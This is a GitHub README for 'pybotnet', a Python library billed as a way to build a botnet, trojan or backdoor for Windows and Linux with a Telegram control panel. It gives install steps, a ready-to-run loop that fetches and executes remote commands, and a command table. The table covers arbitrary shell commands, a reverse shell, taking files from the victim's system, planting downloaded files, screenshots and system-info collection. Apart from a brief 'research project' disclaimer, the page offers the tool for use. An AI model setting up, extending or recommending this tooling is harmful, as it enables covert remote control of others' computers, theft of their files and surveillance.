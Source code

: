  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* reverse shell
* get target info 
* sleep source by Optional message
* export file to targets system
* import file from target system 
* get screenshot

for more, see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` `cmd cd ..`, `cmd ls` | run system command in shell or cmd (Be careful not to give endless commands like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | target donwload this file and save to script path | 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |
`/start` | `/start` | run `help` command !! | 0.18.7 | windows, linux |
`<Target_MAC_Address> reverse_shell`| `66619484755211 reverse_shell` and `exit` for exit!| start reverse shell on target system | 0.20.1 | windows,linux |

> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)


## Contributors ✨
Thanks goes to these wonderful people

<table>
<td align="center"><a href="https://github.com/onionj"><img src="https://avatars.githubusercontent.com/u/77416478?v=4" width="70px;" alt=""/><br /><sub><b>oNion</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>
